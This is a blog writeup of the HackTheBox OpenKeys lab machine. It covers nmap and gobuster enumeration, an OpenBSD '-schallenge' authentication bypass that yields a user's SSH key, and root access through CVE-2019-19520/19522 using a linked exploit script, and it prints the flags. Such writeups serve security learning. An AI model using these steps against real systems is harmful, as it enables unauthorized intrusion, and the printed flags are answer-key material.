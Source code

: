 ```yaml
---
date: 2020-12-12 23:48:05
layout: post
title: HackTheBox OpenKeys Writeup
subtitle: Hackthebox OpenKeys Writeup
description: >-
  in this blog i've explained how to solve OpenKeys machine in hackthebox
image: https://i.ibb.co/sg3rfZ2/logo.png
optimized_image: https://i.ibb.co/sg3rfZ2/logo.png
category: hackthebox
tags:
  - hackthebox
  - OpenKeys
author: Ahmed Fatouh
paginate: true
---
```



# []()Methodology

* Service Enumeration
* ByPass Authentication
* Privilege Escalation

# []()Nmap Scan

> as always, i’ll do nmap scan to find out which services running in this machine.

* 22/tcp --> ssh
* 80/tcp --> OpenBSD httpd

```ruby

# Nmap 7.80 scan initiated Sun Aug  2 00:16:08 2020 as: nmap -sC -sV -oN scan.txt 10.10.10.199
Nmap scan report for 10.10.10.199
Host is up (0.32s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.1 (protocol 2.0)
| ssh-hostkey: 
|   3072 5e:ff:81:e9:1f:9b:f8:9a:25:df:5d:82:1a:dd:7a:81 (RSA)
|   256 64:7a:5a:52:85:c5:6d:d5:4a:6b:a7:1a:9a:8a:b9:bb (ECDSA)
|_  256 12:35:4b:6e:23:09:dc:ea:00:8c:72:20:c7:50:32:f3 (ED25519)
80/tcp open  http    OpenBSD httpd
|_http-title: Site doesn't have a title (text/html).

```

> **as always i will check the web page first, let's go.**

![web-page](https://i.ibb.co/C00XtWT/webpage.png)

* this is a simple web page with a login form, so first let's do directory listing.

> let's run gobuster with this command: **gobuster dir -u http://10.10.10.199/ -w /usr/share/dirb/wordlists/common.txt**

```ruby

Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.199/
[+] Threads:        10
[+] Wordlist:       /usr/share/dirb/wordlists/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/12/10 21:56:27 Starting gobuster
===============================================================
/css (Status: 301)
/fonts (Status: 301)
/images (Status: 301)
/includes (Status: 301)
/index.html (Status: 200)
/index.php (Status: 200)
/js (Status: 301)

```

> in the **includes directory** i found a swap file which contain a username.

![](https://i.ibb.co/TgkKdtG/swap-file.png)

* **so now we have username, let's return back to the login page to play with it.**

> **here is the login request.**

![](https://i.ibb.co/cXWyL33/LOGIN-REQUEST.png)

* in this point i tried some injection techniques but i failed, so i searched for OpenBSD Authentication Bypass and i found this [Blog](https://n3x0.com/2019/12/05/severe-auth-bypass-and-priv-esc-vulnerabilities-disclosed-in-openbsd/) and this [Blog](https://www.secpod.com/blog/openbsd-authentication-bypass-and-local-privilege-escalation-vulnerabilities/)

> **so now we know that we will Bypass the Authentication but how? let me explain to you.**

> **if an attacker specifies the username ‘-schallenge’ or ‘-schallenge:passwd’ for force passwd-style auth, it leads to successful authentication bypass.**

> **so let's check.**

![](https://i.ibb.co/6J3xrKx/1.png)

* **let's follow redirection.**

![](https://i.ibb.co/XL4dfM0/2.png)

> **nice error, this error give us hint, we need to specify the username in the cookies to Bypass the auth and reterive his data.**

* **so the request will be like this.**

![](https://i.ibb.co/ZdxMs5x/request-auth.png)

* **nice!**

![](https://i.ibb.co/tZ0Kdnn/rsa-key.png)

> **we got jennifer ssh private key.**

![](https://i.ibb.co/4mjN8Nh/done.png)

> **let's login now.**

# []() Jennifer Login && User Flag

```ruby

╭─xdev05@nic3One ~/Documents/HTB/OpenKeyS  
╰─➤  ssh -i jennifer_rsa jennifer@10.10.10.199 
Last login: Thu Dec 10 19:47:41 2020 from 10.10.14.151
OpenBSD 6.6 (GENERIC) #353: Sat Oct 12 10:45:56 MDT 2019

Welcome to OpenBSD: The proactively secure Unix-like operating system.

Please use the sendbug(1) utility to report bugs in the system.
Before reporting a bug, please try to reproduce it with the latest
version of the code.  With bug reports, please try to ensure that
enough information to reproduce the problem is enclosed, and if a
known fix for it exists, include that as well.

openkeys$ whoami;id;hostname;cat user.txt
jennifer
uid=1001(jennifer) gid=1001(jennifer) groups=1001(jennifer), 0(wheel)
openkeys.htb
36ab21239a15c537bde90626891d2b10
openkeys$ 


```

* user done!

# []() root@openkeys.htb

> **in the same blogs i found a way to local privilege escalation.**

> in this point we will use CVE-2019-19520 or CVE-2019-19522 to gain **auth group** permissions.

> **follow this [Blog](https://packetstormsecurity.com/files/155572/Qualys-Security-Advisory-OpenBSD-Authentication-Bypass-Privilege-Escalation.html) or Upload this [script](https://raw.githubusercontent.com/bcoles/local-exploits/master/CVE-2019-19520/openbsd-authroot) to the machine and run it.**


```ruby

openkeys# whoami;hostname;cat /root/root.txt 
root
openkeys.htb
f3a553b1697050ae885e7c02dbfc6efa
openkeys# 

```

* **cheers!**

 <script src="https://www.hackthebox.eu/badge/103789"></script>
